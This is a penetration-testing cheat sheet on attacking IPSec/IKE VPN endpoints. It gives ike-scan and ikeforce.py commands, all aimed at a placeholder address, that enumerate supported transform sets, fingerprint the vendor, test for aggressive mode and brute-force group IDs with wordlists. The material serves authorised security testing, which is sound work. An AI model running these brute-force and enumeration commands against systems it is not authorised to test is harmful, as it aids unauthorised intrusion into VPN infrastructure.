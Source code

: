 # IPSec

## IKE

* [https://xakep.ru/2015/05/13/ipsec-security-flaws/](https://xakep.ru/2015/05/13/ipsec-security-flaws/)
* [https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting](https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting)
* [https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/cracking-ike-missionimprobable-part-1/](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/cracking-ike-missionimprobable-part-1/)
* [https://github.com/SpiderLabs/ikeforce](https://github.com/SpiderLabs/ikeforce)

### Get Transform Set

Using `ikeforce.py`:

```text
$ sudo python ikeforce.py 10.10.13.37 -a
```

Using ike-scan via brute force. Generate list of all transform-sets:

```text
$ for ENC in 1 2 3 4 5 6 7/128 7/192 7/256 8; do for HASH in 1 2 3 4 5 6; do for AUTH in 1 2 3 4 5 6 7 8 64221 64222 64223 64224 65001 65002 65003 65004 65005 65006 65007 65008 65009 65010; do for GROUP in 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18; do echo "$ENC,$HASH,$AUTH,$GROUP" >> trans-dict.txt; done; done; done; done
```

Brute force supported transform-sets:

```text
$ while read t; do (echo "[+] Valid trans-set: $t"; sudo ike-scan -M --trans=$t 10.10.13.37) |grep -B14 "1 returned handshake" |grep "Valid trans-set" |tee -a trans.txt; done < trans-dict.txt
Or (for aggressive mode)
$ while read t; do (echo "[+] Valid trans-set: $t"; sudo ike-scan -M -A -P'handshake.txt' -n FAKEID --trans=$t 10.10.13.37) |grep -B7 "SA=" |grep "Valid trans-set" |tee -a trans.txt; done < trans-dict.txt
Or
$ sudo python ikeforce.py -s1 -a 10.10.13.37  # -s1 for max speed
```

### Get Vendor Info

Get information about vendor:

```text
$ sudo ike-scan -M --showbackoff [--trans=<TRANSFORM-SET>] 10.10.13.37
```

### Test for Aggressive Mode

Test for aggressive mode ON:

```text
$ sudo ike-scan -M -A -P -n FAKEID [--trans=<TRANSFORM-SET>] 10.10.13.37
```

### Brute Force Group ID

If no hash value is returned then brute force is \(maybe also\) possible:

```text
$ while read id; do (echo "[+] Valid ID: $id" && sudo ike-scan -M -A -n $id --trans=<TRANSFORM-SET> 10.10.13.37) | grep -B14 "1 returned handshake" | grep "Valid ID" |tee -a group-id.txt; done < dict.txt
Or
$ sudo python ikeforce.py 10.10.13.37 -e -w wordlists/groupnames.dic -t <TRANSFORM-SET-IN-SEPARATE-ARGS>
```

Dictionaries:

* `/usr/share/seclists/Miscellaneous/ike-groupid.txt`
* `~/tools/ikeforce/wordlists/groupnames.dic`

